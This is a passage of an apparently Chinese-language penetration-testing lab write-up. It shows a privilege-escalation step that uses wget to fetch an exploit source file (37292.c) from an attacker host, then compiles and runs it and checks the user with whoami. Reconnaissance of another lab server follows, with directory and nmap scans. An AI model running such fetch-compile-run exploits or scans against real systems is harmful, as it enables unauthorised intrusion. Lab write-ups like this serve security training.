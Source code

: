 ```shell
cd /tmp
wget http://192.168.81.131:1234/37292.c
cc 37292.c
./a.out
whoami
```

![image-20220305231007988](https://gitee.com/xxb667/img/raw/master/img/image-20220305231007988.png)

![image-20220305231242887](https://gitee.com/xxb667/img/raw/master/img/image-20220305231242887.png)

看下脚本内容:

```shell
crontab -l
cat /opt/lmao.py
```

![image-20220305231322937](https://gitee.com/xxb667/img/raw/master/img/image-20220305231322937.png)

![image-20220305231352026](https://gitee.com/xxb667/img/raw/master/img/image-20220305231352026.png)





# 第4次 服务器 192.168.1.19

# 1.信息搜集

## 1.1御剑扫描

```
192.168.1.19
```

扫描到1个文件和1个网页：

```
http://192.168.1.19/robots.txt
http://192.168.1.19/index.php
```

![image-20220307154535082](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220307154535082.png)

## 1.2 nmap扫描

```
nmap -T4 -A -v 192.168.1.19
```

发现有4个端口是开放的
